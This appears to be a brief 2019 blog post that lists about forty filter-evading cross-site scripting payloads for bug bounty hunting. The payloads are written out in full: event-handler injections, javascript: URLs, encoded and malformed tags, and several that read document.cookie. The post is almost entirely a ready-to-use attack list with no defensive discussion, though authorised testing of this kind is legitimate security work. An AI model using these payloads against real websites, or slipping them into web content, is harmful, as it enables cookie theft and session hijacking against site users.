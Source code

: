 ```yaml
---
layout: post
title:  "Advance XSS Payload for Bug Bounty!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```


Some of the great XSS payloads used by experts in security industry,

'"></title></script><img src=x onerror=confirm(1)>
<a href="javascript:{ js code here}"> POC </a>
<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(document.domain)// </b> 
“><svg/onload=alert(document.domain)>”@x.y
<marquee onstart=alert(1)>
'>"><svg/onload=alert()>
<marquee loop=1 width=0 onfinish=co\u006efirm(document.cookie)>XSS</marquee>
ᐸsvg/onload=alert(1)ᐳ
<svg onload=alert(0)>
"><textarea> <-
</</script>script> <</svg>svg/onload=prompt`${document.cookie}`>
javascript:prompt (document.cookie)
script ~~~>alert(0%0)</script ~~~>
<style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>
<svg><style>'<body/onload=confirm(1)>'
<iframe/%00/ src=javaSCRIPT&colon;alert(/hhhh/)
//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
<img onerror="{alert`1`}" src>
<style>@keyframes a{}b{animation:a;}</style>
<b/onanimationstart=prompt`${document.domain}&#x60;>
<d3v/onauxclick=[2].some(confirm)>click
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>
<<meh<meh>svg/onload=alert(1)>
</script></><script>confirm(document.domain)</script>
${7*7}{{7*7}}"--></script><img/src=x onerror=';alert(0);'>
"onmouseover="confirm/()"//
"><img src=n onerror=prompt(1)>
"><script>alert(0);</script>
“><img src=x onerror=prompt(0);>
"--!><Svg/OnLoad=(confirm)(1)>"
<details ontoggle=prompt()>
<a href=“JavaScript:alert(1)”>test</a>
<body onload=alert()>
“/dd><marquee loop=1 onFinish=‘alert(1)’>asdf</marquee>
"<script>alert(3)</script>"
"><ScRipt><img src="" alert(1);></ScRipt>
